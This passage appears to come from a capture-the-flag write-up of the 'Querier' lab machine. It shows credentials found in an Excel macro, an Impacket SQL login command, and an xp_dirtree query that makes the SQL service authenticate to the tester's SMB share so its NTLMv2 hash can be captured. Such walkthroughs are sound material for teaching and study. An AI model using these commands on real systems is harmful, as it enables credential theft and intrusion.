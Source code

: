 </div>

</div>

We can explore the macro code in `Microsoft Excel` using the option
`Visual Basic` in the Developer Tab. The macro has an insecure
configuration of a connection to `SQL Server`, the credentials are in
plain text and now we can use them. It’s a good example of something
that we should never do.

<div class="imgblock">

![macro](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/macro_m86rzk.webp)

<div class="title">

Figure 6. Macro code

</div>

</div>

## Getting User

Now we can connect to the other interesting service that we found:
`ms-sql-s`. We use the module `mssqlclient.py` of `Impacket` to do
queries to the server interactively using the credentials found in the
last step, for example a query to know the version of `SQL Server` like
the first testing query.

``` bash
mssqlclient.py -windows-auth QUERIER/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
```

<div class="imgblock">

![mssql-conection](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/mssql-conection_dx6rkq.webp)

<div class="title">

Figure 7. Mssql conection

</div>

</div>

We will use this service to gain system access, as a user without
privileges. We mount an `SMB` server in our machine to capture the
authentication of any Windows user, in this case, the user that executes
the service `ms-sql-s`. We tell it to enter our share to capture its
`NTLMv2` hash with an `xp_dirtree` query. This stored procedure of `SQL
Server` will access our `SMB` share to display a list of every folder,
every subfolder, and every file.

``` bash
> EXEC master.sys.xp_dirtree '\\10.10.15.1\querier';
```

``` bash
smbserver.py -smb2support querier Documents/
```
